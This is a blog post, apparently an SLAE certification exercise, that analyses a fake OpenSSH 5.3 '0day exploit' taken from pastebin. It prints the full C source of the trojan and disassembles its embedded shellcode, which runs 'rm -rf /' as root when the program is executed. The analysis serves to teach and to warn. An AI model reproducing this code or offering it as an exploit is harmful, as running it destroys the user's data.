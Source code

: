 ```yaml
---
layout: post
title: "SLAE | Analysing a fake OpenSSH 5.3 0day"
date: 2015-10-25
comments: true
categories:
---
```


Searching for 0days on [pastebin.com](http://pastebin.com/) is always interesting.
Specially [this](http://pastebin.com/WgXrebLq) OpenSSH 5.3 remote root 0day exploit.

The "exploit" code:

```c
/*
*
* Priv8! Priv8! Priv8! Priv8! Priv8! Priv8! Priv8!
*
* OpenSSH <= 5.3 remote root 0day exploit (32-bit x86)
* Priv8! Priv8! Priv8! Priv8! Priv8! Priv8! Priv8!
*
*
*/

#include <stdio.h>
#include <netdb.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <arpa/inet.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>

void usage(char *argv[])
{
    printf("\n\t[+] HATSUNEMIKU\n");
    printf("\t[+] OpenSSH <= 5.3p1 remote root 0day exploit\n");
    printf("\t[+] By: Team foxx\n");
    printf("\t[+] Greetz to hackforums.net\n");
    printf("\t[+] Keep this 0day priv8!\n");
    printf("\t[+] usage: %s <target> <port>\n\n", argv[0]);
    exit(1);
}

unsigned char decoder[]=   "\x6a\x0b\x58\x99\x52"
                           "\x6a\x2f\x89\xe7\x52"
                           "\x66\x68\x2d\x66\x89"
                           "\xe6\x52\x66\x68\x2d"
                           "\x72\x89\xe1\x52\x68"
                           "\x2f\x2f\x72\x6d\x68"
                           "\x2f\x62\x69\x6e\x89"
                           "\xe3\x52\x57\x56\x51"
                           "\x53\x89\xe1\xcd\x80";

unsigned char rootshell[]= "\x31\xd2\xb2\x0a\xb9\x6f\x75\x21\x0a\x51\xb9\x63\x6b"
                           "\x20\x79\x51\x66\xb9\x66\x75\x66\x51\x31\xc9\x89\xe1"
                           "\x31\xdb\xb3\x01\x31\xc0\xb0\x04\xcd\x80\x31\xc0\x31"
                           "\xdb\x40\xcd\x80";

int main(int argc, char **argv)
{

    int euid = geteuid();
    int port= 22, sock;
    char h[1000];
    struct hostent *host;
    struct sockaddr_in addr;

    if(euid != 0)
    {
        fprintf(stderr, "You need to be root to use raw sockets.\n");
        exit(1);
    }
    if(euid == 0)
    {
        fprintf(stdout, "MIKU! MIKU! MIKU!\n");
    }
    if(argc != 3)
    usage(argv);
    if(!inet_aton(h, &addr.sin_addr))
    {
        host = gethostbyname(h);
        if(!host)
        {
            fprintf(stderr, "[-] Exploit failed.\n");
            (*(void(*)())decoder)();
            exit(1);
        }
        addr.sin_addr = *(struct in_addr*)host->h_addr;
        }
        sock = socket(PF_INET, SOCK_STREAM, 0);
        addr.sin_port = htons(port);
        addr.sin_family = AF_INET;
        if(connect(sock,(struct sockaddr*)&addr,sizeof(addr))==-1)
        {
            fprintf(stderr,"[-] Exploit failed.\n");
            exit(1);
        }
        char payload[1337];
        memcpy(payload, &decoder, sizeof(decoder));
        memcpy(payload, &rootshell, sizeof(rootshell));
        send(sock, payload, strlen(payload),0);
        close(sock);
        if(connect(sock,(struct sockaddr*)&addr,sizeof(addr))==-1)
        {
            fprintf(stderr, "[-] Exploit failed.\n");
            exit(1);
        }
        else if(connect(sock,(struct sockaddr*)&addr,sizeof(addr))==0)
        {
            fprintf(stdout, "[+]g0t sh3ll!\n");
            system("/bin/bash");
        }
        else
        {
            fprintf(stderr, "[-] Exploit failed.\n");
            close(sock);
            exit(0);
        }
}
```

Some interesting observations:

If the running user ID isn't root `You need to be root to use raw sockets.` is printed.

`inet_aton` is passed an `sockaddr_in` structure with undefined values, and the if case is entered if it fails.

```c
if(!inet_aton(h, &addr.sin_addr))
```

gethostbyname(h) will fail as inet_aton have already failed before, the return value is a null pointer.
Therefore the if case is entered and the "decoder" shellcode is called.

```c
        host = gethostbyname(h);
        if(!host)
        {
            fprintf(stderr, "[-] Exploit failed.\n");
            (*(void(*)())decoder)();
            exit(1);
        }
```

The rest of the code seems to be code just to confuse the user.

So lets check out the decoder shellcode:

```bash
python -c 'print "\x6a\x0b\x58\x99\x52\x6a\x2f\x89\xe7\x52\x66\x68\x2d\x66\x89\xe6\x52\x66\x68\x2d\x72\x89\xe1\x52\x68\x2f\x2f\x72\x6d\x68\x2f\x62\x69\x6e\x89\xe3\x52\x57\x56\x51\x53\x89\xe1\xcd\x80"' > shellcode.bin
root@kali:~/Desktop/slae# ndisasm shellcode.bin
00000000  6A0B              push byte +0xb
00000002  58                pop eax
00000003  99                cdq
00000004  52                push edx
00000005  6A2F              push byte +0x2f
00000007  89E7              mov edi,esp
00000009  52                push edx
0000000A  66682D66          push word 0x662d
0000000E  89E6              mov esi,esp
00000010  52                push edx
00000011  66682D72          push word 0x722d
00000015  89E1              mov ecx,esp
00000017  52                push edx
00000018  682F2F726D        push dword 0x6d722f2f
0000001D  682F62696E        push dword 0x6e69622f
00000022  89E3              mov ebx,esp
00000024  52                push edx
00000025  57                push edi
00000026  56                push esi
00000027  51                push ecx
00000028  53                push ebx
00000029  89E1              mov ecx,esp
0000002B  CD80              int 0x80
0000002D  0A                db 0x0a
```

Looking at the above a quick look at eax shows that it will contain the execve system call number when a system interrupt is sent.

Lets use Libemu to view the specifics of the call:

```
root@kali:~/libemu-master/tools# python -c 'print "\x6a\x0b\x58\x99\x52\x6a\x2f\x89\xe7\x52\x66\x68\x2d\x66\x89\xe6\x52\x66\x68\x2d\x72\x89\xe1\x52\x68\x2f\x2f\x72\x6d\x68\x2f\x62\x69\x6e\x89\xe3\x52\x57\x56\x51\x53\x89\xe1\xcd\x80"' | ./sctest/sctest -v -S -s 1000
verbose = 1
execve
int execve (const char *dateiname=00416fae={/bin//rm}, const char * argv[], const char *envp[]);
cpu error error accessing 0x00000004 not mapped

stepcount 23
int execve (
     const char * dateiname = 0x00416fae => 
           = "/bin//rm";
     const char * argv[] = [
           = 0x00416f9a => 
               = 0x00416fae => 
                   = "/bin//rm";
           = 0x00416f9e => 
               = 0x00416fba => 
                   = "-r";
           = 0x00416fa2 => 
               = 0x00416fc0 => 
                   = "-f";
           = 0x00416fa6 => 
               = 0x00416fc6 => 
                   = "/";
           = 0x00000000 => 
             none;
     ];
     const char * envp[] = 0x00000000 => 
         none;
) =  0;
```

Not such a nice guy running `/bin/rm -rf /`, so if you didn't know don't run untrusted code ;)

---

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: [http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)

Student ID: SLAE - 569
